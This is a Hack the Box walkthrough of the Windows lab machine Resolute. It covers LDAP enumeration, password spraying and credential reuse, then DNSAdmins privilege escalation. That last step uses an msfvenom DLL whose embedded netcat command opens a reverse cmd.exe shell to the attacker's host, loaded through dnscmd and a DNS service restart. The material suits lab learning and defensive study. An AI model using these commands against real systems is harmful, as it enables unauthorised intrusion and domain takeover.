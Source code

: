 +++
author = "Nick"
categories = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
date = 2020-05-30T14:56:00Z
description = ""
draft = false
image = "__GHOST_URL__/content/images/2019/12/resolute.png"
slug = "hack-the-box-resolute"
tags = ["hack the box", "windows", "WinRM", "dll injection", "dns admin", "hydra", "evil-winrm", "smb"]
title = "Hack the Box - Resolute"

+++


Welcome back everyone! Today we are going to be doing the machine Resolute on Hack the Box. This is a Windows machine with a medium difficulty. Let's jump in!

As usual, start with the standard `nmap`: 
```bash 
nmap -sC -sV -T4 -p- -oA resolute 10.10.10.169`
``` 
Here are our results:
```
Host is up (0.24s latency).
Not shown: 990 closed ports
PORT     STATE SERVICE      VERSION
88/tcp   open  kerberos-sec Microsoft Windows Kerberos (server time: 2019-12-09 19:23:46Z)
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
389/tcp  open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http   Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap         Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h47m00s, deviation: 4h37m08s, median: 7m00s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2019-12-09T11:24:29-08:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2019-12-09T19:24:35
|_  start_date: 2019-12-09T18:37:33

```

We can start by checking to see if we can enumerate `LDAP` anonymously. To do that we issue: `ldapsearch -x -h megabank.local`

{{< figure src="__GHOST_URL__/content/images/2019/12/image-44.png" >}}

We get a response back. So we now know that if we combine our leaked FQDN with our search string, we can start searching the structure.

Command:
```ldapsearch -x -h megabank.local -b 'dc=megabank,dc=local'```

This gives us 270 entries, so we save that output. We can further define our search with `LDAP` queries attached to `ldapsearch`. We want to get just users right now.

Command:
`ldapsearch -x -h megabank.local -p 3268 -b 'dc=megabank,dc=local' "(&(objectClass=user))"`

We can save that output and start parsing through it. We have an interesting note on one of the accounts.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-45.png" >}}

I wonder if this password is still valid. It's not, however, a common tactic is to reuse a password for a group of new users. So in this case we try to use the same password for all of the accounts that we found. We get one, ```Melanie```. You can also send a currated listed through `Hydra` to spray all the accounts.

{{< figure src="__GHOST_URL__/content/images/2019/12/resolute_spray.gif" >}}

We login as Melanie and get our user flag from her Desktop. We start to look around the box and see a PSTranscripts folder. Inside this is another folder that has the logging output of a script that has been run. Inside the script, we have credentials for ```Ryan```.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-46.png" >}}

We can now login as Ryan. We do some more enumeration and see that Ryan is part of the DNSAdmins group.

{{< figure src="__GHOST_URL__/content/images/2019/12/image-47.png" >}}

If you've been a System Administrator or on a Red Team you know this is a valid path to escalation. [Here](https://adsecurity.org/?p=4064) and [here](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise) are two quick articles on the topic. So our goal here is to create a malicious dll file with `msfpc` or `msfvenom`. Host it on an `smb share`. Then tell our DNS system to load the dll. This should then execute our payload and connect back to us.

This payload is slightly different than the normal ones we use. This time we are also embedding our command to call.

Command:
`msfvenom -p windows/x64/exec cmd='\\10.10.15.129\share\nc.exe 10.10.15.129 80 -e cmd.exe' -f dll > rootme.dll`

Now we need to move it to where we will host our SMB share. For me thats the Tools directory. We also want to make sure we have a copy of `netcat` for Windows on our share as well. Since our payload calls back to our share to use it.

Command:
`impacket-smbserver -smb2support share .`

This spins up our SMB share called 'share'. Now we just need to get our payload loaded. Within Windows we can use the `dnscmd.exe` tool from the CLI. We tell it to load the payload.

Command:
`dnscmd resolute /config /serverlevelplugindll \\10.10.15.129\share\rootme.dll`

A quick breakdown of this command:
`dnscmd` is the tool we are calling.
`resolute` is the server hostname.
`/config` issues a config wipe for the zone.
`/serverlevelplugindll` tells the system to load a specific plugin.

Once we've loaded our malicious dll, we need to restart the DNS services.

Command:
`sc.exe \\Resolute stop dns`
then
`sc.exe \\Resolute start dns`

We should then see our SMB Share light up, followed by our Netcat session.

{{< figure src="__GHOST_URL__/content/images/2019/12/resolute_root.gif" >}}

We are in as root! Off to the root flag! Box complete.

Hopefully something was learned. If you found this write-up helpful, consider sending some respect my way: [Lovecore's HTB Profile](https://www.hackthebox.eu/home/users/profile/95635).

